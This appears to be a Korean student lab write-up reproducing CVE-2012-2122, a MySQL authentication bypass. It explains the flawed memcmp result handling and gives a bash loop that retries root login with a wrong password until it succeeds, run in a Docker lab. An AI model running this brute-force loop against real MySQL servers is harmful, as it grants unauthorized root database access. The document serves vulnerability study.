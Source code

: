 # CVE-2012-2122

| whs 3기 유수빈

## 개요
1. **CVE 번호**: CVE-2012-2122
2. **취약점 명칭**: MySQL Authentication Bypass
3. **설명**: MySQL 서버에서 패스워드 인증 비교 시 잘못된 조건으로 인해, 낮은 확률로 비밀번호가 틀리더라도 root 계정으로 로그인 가능합니다.
4. **영향 버전**: MySQL 5.5.17 이하

## 요약
**CVE-2012-2122**는 MySQL과 MariaDB의 특정 버전에서 발견돤 **인증 우회 취약점**입니다.

- 취약한 MySQL 버전에서는 사용자의 비밀번호를 검증할 때, 내부적으로 'memcmp()'함수를 사용하여 해시값을 비교합니다.
- 해당 함수는 '-128 ~ 127' 범위의 값을 반환하지만, 해당 값을 'char'로 잘못 처리하면, '0'으로 인식하는 경우가 발생할 수 있습니다.
- 이를 통해 **1/256의 확률로 비밀번호가 틀려도 인증에 성공**하게 됩니다.
- 공격자는 이를 이용해 **임의의 비밀번호를 반복 시도**함으로써, **root 계정으로의 인증 우회를 달성하였습니다.

## 실습 환경 구성
- Docker 기반으로 구성
- 'docker-compose.yaml'을 통해 컨테이너 실행
- 컨테이너 내부에서 bash 반복문을 통해 인증 우회 취약점 재현

## 코드 
```bash
for i in {1..1000}; do
  echo "Try $i"
  mysql -u root --password=wrongpass -e "select user();" 2>/dev/null && echo "[+] Login Success!" && break
done
```

## 실행 결과
![결과 화면]("C:\Users\60dbt\OneDrive\바탕 화면\whs3\cve 환경 구축.png")


